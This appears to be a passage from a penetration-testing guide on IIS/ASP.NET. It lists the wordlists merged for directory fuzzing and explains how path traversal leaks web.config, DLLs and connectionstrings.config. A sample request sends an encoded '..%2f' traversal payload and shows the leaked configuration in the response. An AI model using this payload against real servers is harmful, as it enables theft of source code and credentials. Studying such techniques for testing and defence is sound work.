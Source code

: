 It was created merging the contents of the following lists:

[https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/IIS.fuzz.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/IIS.fuzz.txt)\
[http://itdrafts.blogspot.com/2013/02/aspnetclient-folder-enumeration-and.html](http://itdrafts.blogspot.com/2013/02/aspnetclient-folder-enumeration-and.html)\
[https://github.com/digination/dirbuster-ng/blob/master/wordlists/vulns/iis.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/vulns/iis.txt)\
[https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/cat/Language/aspx.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/cat/Language/aspx.txt)\
[https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/cat/Language/asp.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/cat/Language/asp.txt)\
[https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/iis.txt](https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/iis.txt)

Use it without adding any extension, the files that need it have it already.

### Path Traversal

#### Leaking source code

{% hint style="info" %}
As summary, there are several web.config files inside the folders of the application with references to "**assemblyIdentity**" files and "**namespaces**". With this information it's possible to know **where are executables located** and download them.\
From the **downloaded Dlls** it's also possible to find **new namespaces** where you should try to access and get the web.config file in order to find new namespaces and assemblyIdentity.\
Also, the files **connectionstrings.config** and **global.asax** may contain interesting information.\
Reference: [https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html](https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html)
{% endhint %}

As any .Net application, MVC applications have a **web.config** file, where "**assemblyIdentity**" XML tags identifies every binary file the application uses.

```markup
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral" requirePermission="false" />
  </configSections>
  <appSettings>
    <add key="webpages:Version" value="3.0.0.0" />
    <add key="webpages:Enabled" value="false" />
    <add key="ClientValidationEnabled" value="true" />
    <add key="UnobtrusiveJavaScriptEnabled" value="true" />
  </appSettings>
<system.web>
  <authentication mode="None" />
  <compilation debug="true" targetFramework="4.6.1" />
  <httpRuntime targetFramework="4.6.1" />
</system.web>
<system.webServer>
  <modules>
    <remove name="FormsAuthentication" />
```